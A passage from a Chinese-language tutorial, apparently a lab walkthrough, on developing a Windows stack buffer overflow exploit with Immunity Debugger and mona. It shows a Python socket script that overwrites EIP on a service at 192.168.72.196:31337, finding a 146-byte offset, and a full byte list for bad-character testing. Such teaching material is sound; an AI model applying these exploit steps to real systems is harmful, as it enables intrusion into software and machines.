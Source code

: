 ```
```

在发送前需要回到虚拟机做一些设置，我们需要输入以下语句联动 mona 帮助我们查询

![](https://mmbiz.qpic.cn/mmbiz_png/tF1M75DDm9TIvrbjEWMwulKAygVnJB9qTN4v83paqHicic01q7Ch7hJmsf2MpiblQFnMLok7AJz0aHuhfRZ7LtVmA/640?wx_fmt=png)

重新运行脚本正常情况下程序应该是暂停了回到 Windows 虚拟机上在底下输入框输入!mona findmsp -distance 200 会弹出一个窗口往下拉可以看到 EIP contains normal pattern xxx offset 146 而 146 就是这个程序能承受的极限。

![](https://mmbiz.qpic.cn/mmbiz_png/tF1M75DDm9TIvrbjEWMwulKAygVnJB9qZHK17iam974Gzrs8qZyAyfOLvg3y2UPbOQqOw2vSH5MUqHbBxbv2UQA/640?wx_fmt=png)

如果你想验证的话可以准备 146 个 A，后面再来 4 个 B 重新发送

```
#!/usr/bin/python
import socket

buffer = b"A" * 146 + b"B" * 4

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(('192.168.72.196',31337))
print("Sending: %s" % buffer)
s.send(buffer + b"\n\r")
print("Done!")
s.close()
```

正常来讲是可以发送成功的。

![](https://mmbiz.qpic.cn/mmbiz_png/tF1M75DDm9TIvrbjEWMwulKAygVnJB9q7Uop5atkM35mfkvvibrcgym9gLQichYrvr0ttbNMrNHWTP5z0r8DW6dg/640?wx_fmt=png)

回到虚拟机看 Immunity Debugger, 此时 EIP(下一个地址) 会变成 42424242 即 BBBB 十六进制下的值。

![](https://mmbiz.qpic.cn/mmbiz_png/tF1M75DDm9TIvrbjEWMwulKAygVnJB9q0LelkGjRgNmNlc3RicwHYQgTd0YoTzxNHhRC0FLgxDx1fHicSN7pdsyw/640?wx_fmt=png)

04

_查找坏字符串_

通过上图可知道我们的输入会被转换成十六进制, 然而并不是所有的值都会被接受的。当然 \x00 是通用坏字符串, 先排除完它之后在慢慢调试。以下是所有十六进制的值。

\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff

现在 Immunity debugger 输入!mona bytearray -b “\x00” 通知排除 \x00 这个坏字符串。

![](https://mmbiz.qpic.cn/mmbiz_png/tF1M75DDm9TIvrbjEWMwulKAygVnJB9qbm57aebJxshpNqE2OVOQPZC3106sHuQnFQS5glsGaw1PutGJ77pR6A/640?wx_fmt=png)
